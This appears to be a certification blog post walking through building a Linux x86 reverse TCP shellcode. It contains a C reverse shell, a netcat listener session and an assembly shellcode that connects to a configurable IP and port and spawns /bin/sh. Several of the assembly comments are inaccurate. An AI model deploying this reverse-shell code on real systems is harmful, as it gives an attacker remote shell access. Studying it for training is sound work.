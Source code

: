 ```yaml
---
layout: post
title: "SLAE Problem 2: Reverse TCP Shellcode"
description: "A nice walkthrough of creating a reverse shellcode from scratch"
tags: [asm, shellcode, c]
---
```


# Assignment 2<a id="sec-1" name="sec-1"></a>

This blog post has been created for completing the requirements fo the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements<a id="sec-1-1" name="sec-1-1"></a>

-   Create a Shell Reverse TCP shellcode
    -   Reverse connects to configured IP and PORT
    -   Execs Shell on successful connection
-   IP and Port should be easily configurable

## Strategy<a id="sec-1-2" name="sec-1-2"></a>

My approach to building a tcp reverse shell shellcode will be to:

-   Build off of our TCP bind shell developed in [Assignment 1](http://www.brettlischalk.com/posts/18-slae-problem-1-tcp-bind-shell-shellcode) of the SLAE
-   Modify the C program to call `connect` instead of `bind`, `listen`, and `accept`
-   Analyze the C program system calls to see how the program interacts with the kernel to accomplish its tasks
-   Lookup the system calls and see what arguments and structures they take
-   Attempt to write some assembly that calls the same system calls in the same order with the same arguments as the C program does
-   Debug issues as of course there will be :)

## The Source Code<a id="sec-1-3" name="sec-1-3"></a>

The source code and tools referenced in this article can be found here:

## The C progam<a id="sec-1-4" name="sec-1-4"></a>

{% highlight c %}
    #include <stdio.h>
    #include <netinet/in.h>
    #define PORT 4444
    
    int main(int argc, char **argv) {
      // Create a socket
      int lsock = socket(AF_INET, SOCK_STREAM, 0);
    
      // Setup servr side config struct
      // We configure:
      // The family:IPv4
      // The interface: 127.0.0.1 (Loopback)
      // The port: port#
      struct sockaddr_in config;
      config.sin_family = AF_INET;
      config.sin_addr.s_addr = inet_addr("127.0.0.1");
      // The htons() function converts the
      // unsigned short integer hostshort from host byte
      // order to network byte order.
      config.sin_port = htons(PORT);
    
      // Redirect stdin, stdout, and stderror
      dup2(lsock, 0);
      dup2(lsock, 1);
      dup2(lsock, 2);
    
      // Connect to listening server
      int csock = connect(lsock, (struct sockaddr *) &config, sizeof(config));
    
      // Execute a shell
      execve("/bin/sh", NULL, NULL);
    };

{% endhighlight %}

## Analysis of the C progam<a id="sec-1-5" name="sec-1-5"></a>

Let's compile our program with `gcc reversetcpshell.c -o reversetcpshell`.
Next, lets start Netcat listening for a connection using `nc -nlvp 4444`.
Now that we have Netcat waiting for a connection we can go ahead and
execute our reversetcpshell with `./reversetcpshell`. If we look over
at our Netcat terminal we will see that we have a received a connection
and been presented with a shell!

{% highlight bash %}
    root@blahblah:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37260
    ls
    README.org
    reversetcpshell
    reversetcpshell.c
{% endhighlight %}

Once again, if we use `strace ./reversetcpshell` when starting the reverse
shell we can see the system calls being made:

{% highlight c %}
    socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    dup2(3, 0)                              = 0
    dup2(3, 1)                              = 1
    dup2(3, 2)                              = 2
    connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
    execve("/bin/sh", [0], [/* 0 vars */])  = 0
{% endhighlight %}

Interestingly, our c program is shorter and the amount of system calls
that we need seems to have decreased. It seems as though our reverse
tcp shellcode could be as basic as using `socket, dup2, connect, and execve`.
Essentially we can not worry about `bind, listen, or accept` and just need
to learn about 1 system call we haven't used before: `connect`.

Ok, what can we lear about connect?

{% highlight c %}
    int connect(int socket, const struct sockaddr *address, socklen_t address_len);
{% endhighlight %}

If we remember the function signature of bind:

{% highlight c %}
    int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
{% endhighlight %}

We see that they are exactly the same! The only difference is that when
we define the sockaddr structure that we want to specify the IP of the
machine that we want to connect back to instead of the 0.0.0.0 IP we
specified in our bindshell.

Cool! Lets write some assembly&#x2026;

## Assembly: Take 1<a id="sec-1-6" name="sec-1-6"></a>

If we remember from making our research when creating our bindshell,
the system call for `SYS_CONNECT` was:

{% highlight c %}
    #define SYS_CONNECT 3   /* sys_connect(2)   */
{% endhighlight %}

So in theory, if we modify our assembly to call 3 install of 2 e.g
connect instead of bind, remove unnecessary system calls, and make
sure that we redirect stdin,stdout,and stderror before making our
connection we should be in good shape. Lets give that a go:

{% highlight nasm %}
    global _start
    
    section .text
      _start:
        ;; Create a socket
        ;; int socketcall(int call, unsigned long *args);
        ;; int socket(int domain, int type, int protocol);
        ;; #define SYS_SOCKET 1   /* sys_socket(2)    */
        ;; Use socketcall to call down to socket
        xor eax, eax
        mov al, 0x66 ; socketcall syscall
        xor ebx, ebx
        mov bl, 0x1 ; sys_socket syscall number
    
        ;; Put the socket() args on the stack
        xor ecx, ecx
        push ecx ; INADDR_ANY Accept on any interface 0x00000000
        push ebx ; SOCK_STREAM is the type of socket 1
    
        push 0x2 ; protocol af_inet is the ip protocol 2
    
        mov ecx, esp ; save pointer to args for the socket() call
        int 0x80 ; call sys_socket
    
        ; save the returned listening socket file descriptor
        xor edi, edi
        mov edi, eax
    
    
        ;; Connect on the socket
        xor eax, eax
        mov al, 0x66 ; socketcall syscall
    
        ;; Start building the sockaddr_in structure
        ;; Since the structure is laid out as:
        ;; sin_family, sin_port, sin_addr
        ;; we need to push the values onto the stack
        ;; in reverse order
        ;; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
        ;; sin_addr= inet_addr("127.0.0.1) = 0x0100007f
        ;; loop back addr is 127.0.0.1
        ;; this translates to 0x0100007f
        ;; we don't want to have null bytes 0x00
        ;; so we add 0x01010101 to our address
        ;; move it into a register
        ;; and then subtract
        xor ecx, ecx
        mov ecx, 0x02010180 ; 0x0100007f
        sub ecx, 0x01010101
        push ecx ; inet_addr("127.0.0.1) = 0x0100007f
        ;;push 0x0101017f ; inet_addr("127.1.1.1")
    
        ;; 4444 is 0x115c in little endian. Network byte order is
        ;; Big endian so we swap the byte ordering
        push word 0x5c11 ; sin_port=4444 (network byte order)
        ;; bl is sys_connect syscallnumber 0x3
        ;; prior to the next instruction
        ;; subtract one to bring it to 0x2
        ;; which is what AF_INET represents
        inc ebx
        push word bx     ; sin_family=AF_INET (0x2)
        mov ecx, esp     ; move pointer to sockaddr_in structure
    
    
        ;; In the initial code we use sizeof to derive the addrlen
        ;; If we print the results of that we get 0x10 which is 16 bytes
        push 0x10 ;addrlen=16
        push ecx  ;struct sockaddr pointer
        push edi  ;sockfd
        mov ecx, esp ;save pointer to bind() args
        inc ebx
        int 0x80 ; call sys_connect
    
        ;; call dup2 for stdin, stdout, and stderr in a loop
        xor ecx, ecx
        mov cl, 0x2 ;loop counter
        xor eax, eax
      dup2:
        mov al, 0x3f ;dup2
        int 0x80
        dec ecx
        jns dup2
    
        ;; Call execve
        xor eax, eax
        mov al, 0xb ;execve
        xor ebx, ebx
        push ebx
        push 0x68732f2f ;"sh//"
        push 0x6e69622f ;"nib/"
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80

{% endhighlight %}
